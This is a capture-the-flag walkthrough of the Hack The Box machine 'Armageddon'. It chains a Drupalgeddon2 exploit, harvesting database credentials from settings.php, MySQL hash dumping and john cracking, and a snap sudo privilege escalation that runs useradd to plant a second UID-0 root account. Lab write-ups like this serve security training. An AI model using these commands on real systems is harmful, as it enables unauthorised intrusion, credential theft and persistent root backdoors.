 ```yaml
---
description: https://app.hackthebox.com/machines/323
---
```


# Armageddon

## Nmap

```
nmap 10.10.10.233 -p- -sS -sV

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
```

Port 80 hosts a web server which is visually identifiable as a Drupal instance.

![](<../../../.gitbook/assets/image (341).png>)

Standard enumeration did not show any interest information. From here drupwn was utilized to identify the exact version of Drupal installed.

**Github:** [https://github.com/immunIT/drupwn](https://github.com/immunIT/drupwn)

**Install**

```
git clone https://github.com/immunIT/drupwn.git
cd drupwn
python3 setup.py install
```

**Usage**

```
drupwn --mode enum --target http://10.10.10.233  
```

![](<../../../.gitbook/assets/image (912).png>)

`Searchsploit` \*\*\*\* shows that this version of Drupal is vulnerable to "Drupalgeddon".

```bash
searchsploit -w "drupal 7.56"
```

![](<../../../.gitbook/assets/image (260).png>)

Metasploit has a module for drupalgeddon2. Once the corrects options were set the exploit was executed.

![](<../../../.gitbook/assets/image (356).png>)

Where we receive a meterpreter shell.

![](<../../../.gitbook/assets/image (93).png>)

Now with a shell, we find we are working as the _apache_ user. As Drupal is installed we perform some basic enumeration steps to look for `MySQL` usernames and passwords. The command below can be used to scour the `settings.php` file for this information.

```bash
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```

![](<../../../.gitbook/assets/image (239).png>)

Finding the above credentials we run a single command against `MySQL` to find a hash for a user on the machine.

```bash
mysql -u drupaluser --password='CQHEy@9M*m23gBVj' -e 'use drupal; select * from users'
```

![](<../../../.gitbook/assets/image (222).png>)

This hash is then cracked with `john` to reveal the credentials: `brucetherealadmin:boobo`.

```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt ~/Desktop/hash.txt   
```

We can now login over `SSH` as the user _brucetherealadmin_.

![](<../../../.gitbook/assets/image (235).png>)

From here linpeas.sh was utilized to help with Privilege Escalation identification.

![](<../../../.gitbook/assets/image (259).png>)

We find the current user can run the `/usr/bin/snap` binary as the `root` user without specifying a password.

**GTFOBins:** [https://gtfobins.github.io/gtfobins/snap/](https://gtfobins.github.io/gtfobins/snap/)

![](<../../../.gitbook/assets/image (236).png>)

From the above GTFOBins link we see that a malicious package can be crafted and used to execute the package in the context of the `root` user.

The blog post linked below shows some ways in which this can be done.

**Blog:** [https://blog.ikuamike.io/posts/2021/package\_managers\_privesc/#exploitation-snap](https://blog.ikuamike.io/posts/2021/package\_managers\_privesc/#exploitation-snap)

We can also use the below Snap\_Generator to help us easily craft the required `snap` packages.

**Github:** [https://github.com/0xAsh/Snap\_Generator](https://github.com/0xAsh/Snap\_Generator)

**Install fpm (Required)**

```
sudo gem install fpm
```

**Download and prepare Snap\_Generator**

```
wget https://raw.githubusercontent.com/0xAsh/Snap_Generator/main/snap_generator.sh && chmod +x snap_generator.sh
```

After running the above command we need to then issue a command to the snap\_generator.sh script to use in our package. In this instance we will add a new `root` user to the target system.

```
/usr/sbin/useradd -p $(openssl passwd -1 Password123) -u 0 -o -s /bin/bash -m owned
```

![](<../../../.gitbook/assets/image (134).png>)

Upload the snap package to the target system.

```
sudo -u root /usr/bin/snap install /home/brucetherealadmin/owned_1.0_all.snap --dangerous --devmode
```

After completion check for existence of the new user.

![](<../../../.gitbook/assets/image (41) (2).png>)

Once confirmed, switch over to the new user.

![](<../../../.gitbook/assets/image (1051).png>)
